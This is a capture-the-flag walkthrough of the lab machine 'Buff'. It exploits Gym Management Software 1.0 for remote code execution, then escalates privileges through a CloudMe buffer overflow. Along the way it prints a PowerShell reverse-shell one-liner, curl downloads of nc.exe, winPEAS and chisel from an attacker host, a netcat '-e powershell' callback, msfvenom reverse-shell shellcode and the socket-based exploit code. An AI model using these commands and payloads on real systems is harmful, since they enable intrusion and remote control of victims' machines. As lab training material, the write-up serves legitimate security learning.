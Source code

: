 # Buff

# Following the PTES Framewrok.

1. **Pre-Enagement Interaction**
2. **Intelligence Gathering**
3. **Threat Modeling**
4. **Vulnerability Analysis**
5. **Exploitation**
6. **Post Exploitation**
7. **Reporting**

### Nmap scan
![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-20_1.png)
Nmap reveals that the port '8080', visiting the page will load a exercise webpage. 
`Projectworlds.in` It could a project from this site <==
### The contact page shows:
- `mrb3n's Bro Hut`
- `Made using Gym Management Software 1.0 `
From the **index.php** it's clear that the site is build with php.

### Directory Busting
Let's run Gobuster.
```bash
gobuster dir -w words.txt -u http://<ip>
```

## Metasploit
Searching for `Gym Management` on `searchsploit` will give few results.
![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-20_2.png)
Using the Remote Code Execution with no Authentication? Sounds interesting so let's try.

copy the file to local directory and use legacy `python2` to run this.
```bash
python2 exploit.py <ip>:8080/
```
we get a shell.
![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-21.png)

## Priv Esc
The shell above is not presistant, Can't change directories or anuthong. need a better shell. Using Nashing will get more presistance shell. 
Copy the `Invoke-PowerShellTcpOneLine.ps1` to locate directory and change the ip to attacker machine with a port. 

![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-21_1.png)

```bash
 $client = New-Object System.Net.Sockets.TCPClient('10.10.16.3',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};whi
       │ le(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
       │  $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASC
       │ II).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Now let's set up a python3 server to upload this to the target machine.

```bash
python3 -m http.server
```
### THE ABOVE REVERSE SHELL DID NOT WORK let's go different way.

### Uing nc.exe to get the powershell
Copy the nc.exe to local directory and host with python.
Curl the nc.exe file on the target machine.

```bash
curl 10.10.16.3:6000/nc.exe -o nc.exe
```

Start listening to the on a port

```bash
nc -lvnp 9001
```

On the target machine run the command
```bash
nc.exe 10.10.16.3 9001 -e powershell
```

We have a shell.
![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-21_2.png)

Since the shell is more presistenct, Changing the directory is possible.
```bash
PS C:\Users\shaun\Desktop> type user.txt 
type user.txt
9b3c941baed51cee57e9d397964b468e

```

### Runing winPEAS.ps1
Copy the winPEAS.exe to local directory and host then curl to the target machine and run. 

```bash
curl 10.10.16.3:6000/winPEAS.exe
```
Once done uploading, run it `.\winPEAS.exe`
 
 Going through the winpeas output found the CloudMe and search sploit shows that there is a buffer overflow exploit.
![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-22.png)


### list LISTEING PORTS
```bash
netstat -an
```

## HTTP Tunnel with Chisel 

Download chisel.exe and chisel for linux and transfer the chisel.exe to the target machine.
```bash
curl <kali IP>:port/chisel.exe -o chisel.exe
```

## Run chisel
Cleint (target machien) 
```bash
.\chisel.exe client 10.10.16.3:9002 R:3306:localhost:3306 R:8888:localhost:8888
```

## Kali
```bash
./chisel server --reverse --port 9002
```

On a seprate window run
```bash
nc localhost 8888 or 3306
```
## Connecting to mysql

```bash
mysql -u root -p -h 127.0.0.1 --ssl=0
```
--ssl=0 for Maria db to disable ssl 

```bash
show databases;
use test;
show tables;
```
Looks like all the tables are empty;
![buff nmap](../../Assets/walktrhough-assets/Buff/2025-02-22_1.png)

## check if there is chisel
```bash
ss -lnpt | grep 3306
```

## List all the payloads
```bash
## Get the msfvenom from the cloudMe exploit that we found
grep -i 'msfvenom' cloudme_exploit.py
msfvenom -l payload
```
Need to create a paylaod and use reverse_shell 
```bash
## kali ip and port to listen on
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9004 -b '\x00\x0A\x0D' -f python
```
![msfvenom payload](../../Assets/walktrhough-assets/Buff/2025-02-22_2.png)

copy the payload and added to the .py cloudMe file replacing the existance code (buffer part)

addd at the end 
```bash
payload=buf
```

Listen on local port 9004 in this case
```bash
nc -lvnp 9004
```
Now run the cloudMe.py exploit (the name was change for the exploit from 48389.py)
```bash
python3 cloudme_exploit.py
```
![root](../../Assets/walktrhough-assets/Buff/2025-02-22_3.png)

## Root.txt
![root](../../Assets/walktrhough-assets/Buff/2025-02-22_5.png)


```py
# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xd9\xeb\xba\x2a\x18\xb0\x34\xd9\x74\x24\xf4\x5e"
buf += b"\x29\xc9\xb1\x52\x83\xc6\x04\x31\x56\x13\x03\x7c"
buf += b"\x0b\x52\xc1\x7c\xc3\x10\x2a\x7c\x14\x75\xa2\x99"
buf += b"\x25\xb5\xd0\xea\x16\x05\x92\xbe\x9a\xee\xf6\x2a"
buf += b"\x28\x82\xde\x5d\x99\x29\x39\x50\x1a\x01\x79\xf3"
buf += b"\x98\x58\xae\xd3\xa1\x92\xa3\x12\xe5\xcf\x4e\x46"
buf += b"\xbe\x84\xfd\x76\xcb\xd1\x3d\xfd\x87\xf4\x45\xe2"
buf += b"\x50\xf6\x64\xb5\xeb\xa1\xa6\x34\x3f\xda\xee\x2e"
buf += b"\x5c\xe7\xb9\xc5\x96\x93\x3b\x0f\xe7\x5c\x97\x6e"
buf += b"\xc7\xae\xe9\xb7\xe0\x50\x9c\xc1\x12\xec\xa7\x16"
buf += b"\x68\x2a\x2d\x8c\xca\xb9\x95\x68\xea\x6e\x43\xfb"
buf += b"\xe0\xdb\x07\xa3\xe4\xda\xc4\xd8\x11\x56\xeb\x0e"
buf += b"\x90\x2c\xc8\x8a\xf8\xf7\x71\x8b\xa4\x56\x8d\xcb"
buf += b"\x06\x06\x2b\x80\xab\x53\x46\xcb\xa3\x90\x6b\xf3"
buf += b"\x33\xbf\xfc\x80\x01\x60\x57\x0e\x2a\xe9\x71\xc9"
buf += b"\x4d\xc0\xc6\x45\xb0\xeb\x36\x4c\x77\xbf\x66\xe6"
buf += b"\x5e\xc0\xec\xf6\x5f\x15\xa2\xa6\xcf\xc6\x03\x16"
buf += b"\xb0\xb6\xeb\x7c\x3f\xe8\x0c\x7f\x95\x81\xa7\x7a"
buf += b"\x7e\xa4\x3d\x94\x7d\xd0\x43\x94\xa2\x0c\xcd\x72"
buf += b"\xce\x5c\x9b\x2d\x67\xc4\x86\xa5\x16\x09\x1d\xc0"
buf += b"\x19\x81\x92\x35\xd7\x62\xde\x25\x80\x82\x95\x17"
buf += b"\x07\x9c\x03\x3f\xcb\x0f\xc8\xbf\x82\x33\x47\xe8"
buf += b"\xc3\x82\x9e\x7c\xfe\xbd\x08\x62\x03\x5b\x72\x26"
buf += b"\xd8\x98\x7d\xa7\xad\xa5\x59\xb7\x6b\x25\xe6\xe3"
buf += b"\x23\x70\xb0\x5d\x82\x2a\x72\x37\x5c\x80\xdc\xdf"
buf += b"\x19\xea\xde\x99\x25\x27\xa9\x45\x97\x9e\xec\x7a"
buf += b"\x18\x77\xf9\x03\x44\xe7\x06\xde\xcc\x17\x4d\x42"
buf += b"\x64\xb0\x08\x17\x34\xdd\xaa\xc2\x7b\xd8\x28\xe6"
buf += b"\x03\x1f\x30\x83\x06\x5b\xf6\x78\x7b\xf4\x93\x7e"
buf += b"\x28\xf5\xb1"
payload=buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```
